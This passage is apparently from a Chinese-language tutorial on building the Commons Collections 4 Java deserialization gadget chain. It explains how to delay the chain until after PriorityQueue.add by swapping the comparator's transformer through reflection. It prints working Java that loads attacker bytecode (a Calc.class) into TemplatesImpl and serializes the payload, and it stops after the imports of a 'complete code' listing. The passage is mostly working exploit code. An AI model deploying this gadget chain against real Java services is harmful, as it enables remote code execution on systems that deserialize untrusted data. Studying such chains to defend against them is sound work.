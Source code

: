 修改方法也很简单，在调用add之前，无法完整的调用整个链子，在add之后再将链子补充完整即可

最终调用的是`TransformingComparator`类中的`compare`函数，所以将`TransformingComparator`实例化时无法调用整个链子，再add之后再将`TransformingComparator`实例化的值改回来

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
         setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());

//        templates.newTransformer();

       InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
//       instantiateTransformer.transform(TrAXFilter.class);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//先给一个不能调用链子的值
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
//        transformingComparator.compare(TrAXFilter.class,TrAXFilter.class);
        PriorityQueue priorityQueue = new PriorityQueue(1,transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

//通过反射将值改回来
        Class tscomparator = transformingComparator.getClass();
        Field transformerField = tscomparator.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator,chainedTransformer);        
        serialize(priorityQueue);
        unserialize("CC4.txt");
```

## 完整代码

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import jdk.nashorn.internal.objects.annotations.Constructor;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import sun.text.resources.no.CollationData_no;

import javax.xml.transform.Templates;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

```